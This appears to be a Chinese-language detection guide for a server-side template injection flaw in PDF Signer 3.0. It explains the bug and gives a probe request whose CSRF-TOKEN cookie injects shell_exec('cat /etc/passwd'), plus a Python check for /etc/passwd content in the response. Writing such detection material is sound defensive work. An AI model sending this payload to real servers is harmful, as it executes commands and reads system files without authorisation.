

# PDF Signer 3.0 SSTI远程代码执行漏洞（pdf-signer-ssti-to-rce）检测说明

## 漏洞简介

PDF Signer 3.0 存在服务端模板注入（SSTI）漏洞，攻击者可通过恶意构造的Cookie实现远程代码执行，危及服务器安全。该漏洞与不安全的CSRF实现和Cookie处理有关。

## 影响范围

- 产品：PDF Signer
- 影响版本：3.0
- CVE编号：无（社区编号 pdf-signer-ssti-to-rce）
- 危害等级：Critical

## 漏洞原理

应用对CSRF-TOKEN Cookie值未做有效过滤，攻击者可注入模板表达式（如`shell_exec`），导致服务端执行任意命令。

## 利用方式与攻击流程

1. 攻击者构造带有SSTI payload的Cookie，CSRF-TOKEN值中注入`shell_exec('cat /etc/passwd')`。
2. 服务器端未对Cookie值进行安全处理，直接渲染模板。
3. 模板引擎执行恶意表达式，触发命令执行。
4. 响应体中回显`/etc/passwd`内容，攻击者据此判断漏洞是否存在。

## 探测原理与流程

### 探测请求的构造

```http
GET / HTTP/1.1
Host: target.com
Cookie: CSRF-TOKEN=rnqvt{{shell_exec('cat /etc/passwd')}}to5gw; simcify=uv82sg0jj2oqa0kkr2virls4dl
```

- CSRF-TOKEN Cookie中注入模板表达式，尝试让服务器执行命令。

### 预期响应与交互

- 响应体需包含`root:.*:0:0:`（/etc/passwd内容特征）。
- HTTP状态码为200。

### 判定逻辑

```python
def is_vulnerable(response):
    import re
    if response.status_code == 200 and re.search(r"root:.*:0:0:", response.text):
        return True
    return False
```

### 检测流程Mermaid图



## 参考链接

- 暂无公开参考链接 